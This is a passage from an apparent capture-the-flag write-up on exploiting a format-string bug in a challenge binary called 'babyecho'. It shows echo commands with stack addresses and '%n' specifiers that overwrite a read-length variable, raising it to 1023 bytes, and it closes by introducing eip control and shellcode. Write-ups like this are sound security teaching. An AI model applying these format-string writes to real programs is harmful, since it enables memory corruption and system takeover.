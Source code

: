 ```

$ <span class="in">echo -e '\x64\x94\xff\xff%7$n' | ./babyecho</span>
Reading 13 bytes
....
Reading 13 bytes
```

```

$ <span class="in">echo -e '\x84\xc6\xff\xff%7$n' | ./babyecho</span>
Reading 13 bytes
....
Reading 13 bytes
```

```

$ <span class="in">echo -e '\x90\xc6\xff\xff%7$n' | ./babyecho</span>
Reading 13 bytes
....
Reading 4 bytes
```

Aha! We were able to overwrite the length value with the integer 4. Obviously we don't want 4, but because of the 13-byte limit the best we can do is 99 more:

```

$ <span class="in">echo -e '\x90\xc6\xff\xff%99x%7$n' | ./babyecho</span>
Reading 13 bytes
....                                                                                                  d
Reading 103 bytes
```

or is it? We can actually mess with a different byte. In other words, instead of changing the last byte - 0x000000xx - we change the second last - 0x0000xx00 - which will be at the next address:

```

$ <span class="in">echo -e '\x91\xc6\xff\xff%99x%7$n' | ./babyecho</span>
Reading 13 bytes
....                                                                                                  d
Reading 1023 bytes
```

1023 bytes is pretty good! That's plenty of room to build a full exploit.

## Controlling eip

The next step is to control eip - the instruction pointer, or the thing that says which instruction needs to run. Once we control eip, we can point it at some shellcode (code that gives us full control).
